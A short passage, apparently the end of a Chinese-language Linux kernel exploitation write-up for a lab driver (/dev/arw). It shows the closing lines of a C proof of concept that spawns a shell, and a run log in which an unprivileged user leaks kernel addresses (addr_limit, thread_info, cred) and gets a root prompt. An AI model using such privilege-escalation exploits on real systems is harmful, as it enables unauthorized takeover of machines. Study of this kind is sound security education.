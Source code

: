 ```C
    system("sh");

    return 0;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>最终效果如下：</font></br>

```shell
/mytest # ./makeuser.sh 
[    5.946516] arw_major /dev/arw: 248arw init success
passwd: unknown uid 0
/mytest $ ./poc
[    6.925967] addr_limit's addr: 0xffff88000244c018
got thread_info: 0xffff88000244c000
task_addr: 0xffff880002aaa640
real_cred: 0xffff88000240f000
/mytest # 
```

